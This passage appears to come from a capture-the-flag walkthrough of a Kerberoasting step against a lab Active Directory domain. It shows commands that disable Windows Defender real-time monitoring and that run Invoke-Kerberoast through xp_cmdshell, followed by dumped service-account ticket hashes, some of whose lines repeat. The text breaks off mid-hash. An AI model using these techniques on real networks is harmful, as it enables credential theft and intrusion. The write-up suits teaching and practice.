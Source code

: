 ### Kerberoast

#### Invoke-Kerberoast

I’ll grab [a
copy](https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-
Kerberoast.ps1) of `Invoke-Kerberoast.ps1` and upload it over the WinRM shell.
As I’ll be running stuff that might be blocked by defender, I’ll turn that
off:

    
    
    *Evil-WinRM* PS C:\programdata> Set-MpPreference -DisableRealtimeMonitoring $true
    

Just like with SharpHound, I’ll run it from the SQL shell:

    
    
    SQL> xp_cmdshell powershell -c import-module c:\programdata\invoke-kerberoast.ps1; invoke-kerberoast -outputformat hashcat
    output
    
    --------------------------------------------------------------------------------
    
    NULL
    NULL
    TicketByteHexStream  :
    Hash                 : $krb5tgs$23$*p00_hr$intranet.poo$HR_peoplesoft/intranet.poo:1433*$F2463BF66154BFDBEF0E6821A2CCE5
    6C$5CA58FDBF4D6DF3935D15ABDF677D8BCFA2946E7EE2BC21B623E81C9925572C281C332A7E1E8ACCB8DC014B50D4BD
    3A24AAA2D5F51CCDE2DADC993CFB115243E3E74BAEE492E6B154CB04CA942D255EDD2AC2D137651F3D4B638353FC29BE
    89CB00BB5C85F23651ADE26142E39FF827B0BB1163D5C03041D64074143F104F06248CFFE428F58E1227A02DA6EA7DF7
    CDE679FD0846627F3F4D4BCBAF60EEE6E18F578001F4F5B62CFF0B4C6A6DF12C34395F66C9714EFF139BA1D78F679B24
    A57E0C01DB0A01641AA8E5DC9CEB37817C2664DE3F677B3B41B6DB1B4A1C3A45237478D7D37780333F29A497C0DCAC76
    A1E0D4ED998DF2DE442886084F4D5A49F4CAAA524E289271343B14E5D5F8928122F6D57A7428737FA4DF63C6A64CB56C
    F1183A276DBEC2BEF30B15D214722B5E0614461D5A090DEDEA68DDF86278D781FD4023F704B319EBE2B7FDBC84EA39F8
    885B692A85701B4C5DF2721F7F70DF7862E3689AE0DC3B0067E17F43BC15C9C0E202E2B6F1C9F44B09F1A128F318220D
    091D299F081778C1B90EF9DB2C8A61793BF9ED70C22E63621EF2E8389309C5DF807B59F39F5FD23AA36ECBF425F80F0F
    C0C33011721EBF0CFA1AD57B726F6326324B8F1FCF4C6E314A84A14DF780B06EC71EAECC12E500A7F8E6C06E0E56C9D3
    03A3EB7A195C77B4055C0F1280620C4053885A93A4C789D619D1294B7206CFA3F242476143717CDF5E8B8B5FBDC6E9CF
    F1D9DAFC90605438ADEC3520A91A529A5117218877FCB89DC2A87F76999F3A4F7F4A63D64061380E817432BA8BA3B0C7
    1C3C84EB8EF02930EDCA11B008716E3A0FE6F62634CA126B6BD06AF2E015DEDCD394440B0F8744EE8BA8FC3C55F3D2D4
    3280E62511F9FEC2EBC009B90CDBBC257363613B837825CFF32A4F97B657ADE4686658B31AE48691F767B07534353F2F
    FB47F975ED6FBF38041CEECA395EDE803EF9C32F391D8DA4139F6271921F770FC3997BD4EEB9B8C8C14E10D14232C2C4
    0C6D3540A92912733A464DB22CFF699E7881A4ABDA30916C546D1B54B015E1347F92DDE8301E5ADD9F07535C4312DF73
    03A3EB7A195C77B4055C0F1280620C4053885A93A4C789D619D1294B7206CFA3F242476143717CDF5E8B8B5FBDC6E9CF
    F1D9DAFC90605438ADEC3520A91A529A5117218877FCB89DC2A87F76999F3A4F7F4A63D64061380E817432BA8BA3B0C7
    1C3C84EB8EF02930EDCA11B008716E3A0FE6F62634CA126B6BD06AF2E015DEDCD394440B0F8744EE8BA8FC3C55F3D2D4
    3280E62511F9FEC2EBC009B90CDBBC257363613B837825CFF32A4F97B657ADE4686658B31AE48691F767B07534353F2F
    FB47F975ED6FBF38041CEECA395EDE803EF9C32F391D8DA4139F6271921F770FC3997BD4EEB9B8C8C14E10D14232C2C4
    0C6D3540A92912733A464DB22CFF699E7881A4ABDA30916C546D1B54B015E1347F92DDE8301E5ADD9F07535C4312DF73
    677F15DF89DC7532B631E3730846991D55429128D05A8717E892A7FBA38086B501F3CE6109A8E8470FE5917E77D936B6
    3F1212BC193A1EF3EF37AFCE5BD02E20CE3D8C3D756F57416025F9BF157D4D284DC48662D4E3DDCF4958B5F1AB1D4EDF
    344D1B5D5AE73F558FBD0681712EDC3A336ADD3D755DB210B1519CF309335FE50D971ADA2A6F13C0494CE8F75677A62C
    37C9C917A2C3575F2C4D6767644E2583A1854880D3E13C7C54B3593994C0DF79F20C21E3DD2D7514CFA3EB16E3657407
    000740F3A35BF3DE4965F62CF1E617ED850DEA23DE5C624A89C3204FA067B3EBC48C499E4A56B9298AA862DAF58894FF
    7301206A60633FDDE80D59C4D97FDF42915206762A0EB1F52C3388EDD5D704448F2B51FB796EF0A60A8168F59C63A
    SamAccountName       : p00_hr
    DistinguishedName    : CN=p00_hr,CN=Users,DC=intranet,DC=poo
    ServicePrincipalName : HR_peoplesoft/intranet.poo:1433
    NULL
    TicketByteHexStream  :
    Hash                 : $krb5tgs$23$*p00_adm$intranet.poo$cyber_audit/intranet.poo:443*$A4E0C3EAFB451D4D9F965EA3A985EEBC
    $0232185FAEC205E5B5BE9821F00828CA5B5A233C74F5685FBB87C39F9ED45C53977050125F4554AD7379299C1B643B3
    3E38BB0DEC72FA7C3F44B4E34F82B76E5728E62CD35F2AA3D464217C354FD90CF9AE973122106BFAF46EE90398AE7BDE